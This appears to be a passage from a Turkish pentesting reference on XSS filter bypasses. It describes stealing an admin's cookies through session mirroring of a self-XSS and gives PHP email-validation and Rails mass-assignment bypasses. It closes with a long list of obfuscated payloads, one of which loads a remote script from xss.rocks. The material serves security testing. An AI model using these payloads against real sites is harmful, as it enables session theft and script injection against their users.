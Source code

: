 ### Oturum Yansıtma

Eğer bazı self XSS bulursanız ve web sayfasında **yöneticiler için oturum yansıtma** varsa, örneğin müşterilerin yardım istemesine izin veriyorsa, yönetici size yardımcı olmak için sizin oturumunuzda gördüğünüzü kendi oturumundan görecektir.

**Yöneticiye self XSS'inizi tetikletip** çerezlerini/oturumunu çalabilirsiniz.

## Diğer Bypass'ler

### Normalleştirilmiş Unicode

**Yansıtılan değerlerin** sunucuda (veya istemci tarafında) **unicode normalleştirilip normalleştirilmediğini** kontrol edebilir ve bu işlevselliği korumaları aşmak için istismar edebilirsiniz. [**Burada bir örnek bulun**](../unicode-injection/index.html#xss-cross-site-scripting).

### PHP FILTER_VALIDATE_EMAIL bayrağı Bypass
```javascript
"><svg/onload=confirm(1)>"@x.y
```
### Ruby-On-Rails bypass

**RoR kütle ataması** nedeniyle HTML'ye alıntılar eklenir ve ardından alıntı kısıtlaması aşılır ve etiketin içine ek alanlar (onfocus) eklenebilir.\
Form örneği ([bu rapordan](https://hackerone.com/reports/709336)), eğer yükü gönderirseniz:
```
contact[email] onfocus=javascript:alert('xss') autofocus a=a&form_type[a]aaa
```
"Key","Value" çifti şu şekilde geri dönecektir:
```
{" onfocus=javascript:alert(&#39;xss&#39;) autofocus a"=>"a"}
```
Sonra, onfocus niteliği eklenecek ve XSS gerçekleşecektir.

### Özel kombinasyonlar
```markup
<iframe/src="data:text/html,<svg onload=alert(1)>">
<input type=image src onerror="prompt(1)">
<svg onload=alert(1)//
<img src="/" =_=" title="onerror='prompt(1)'">
<img src='1' onerror='alert(0)' <
<script x> alert(1) </script 1=2
<script x>alert('XSS')<script y>
<svg/onload=location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;//
<svg////////onload=alert(1)>
<svg id=x;onload=alert(1)>
<svg id=`x`onload=alert(1)>
<img src=1 alt=al lang=ert onerror=top[alt+lang](0)>
<script>$=1,alert($)</script>
<script ~~~>confirm(1)</script ~~~>
<script>$=1,\u0061lert($)</script>
<</script/script><script>eval('\\u'+'0061'+'lert(1)')//</script>
<</script/script><script ~~~>\u0061lert(1)</script ~~~>
</style></scRipt><scRipt>alert(1)</scRipt>
<img src=x:prompt(eval(alt)) onerror=eval(src) alt=String.fromCharCode(88,83,83)>
<svg><x><script>alert('1'&#41</x>
<iframe src=""/srcdoc='<svg onload=alert(1)>'>
<svg><animate onbegin=alert() attributeName=x></svg>
<img/id="alert('XSS')\"/alt=\"/\"src=\"/\"onerror=eval(id)>
<img src=1 onerror="s=document.createElement('script');s.src='http://xss.rocks/xss.js';document.body.appendChild(s);">
(function(x){this[x+`ert`](1)})`al`
window[`al`+/e/[`ex`+`ec`]`e`+`rt`](2)
document['default'+'View'][`\u0061lert`](3)
```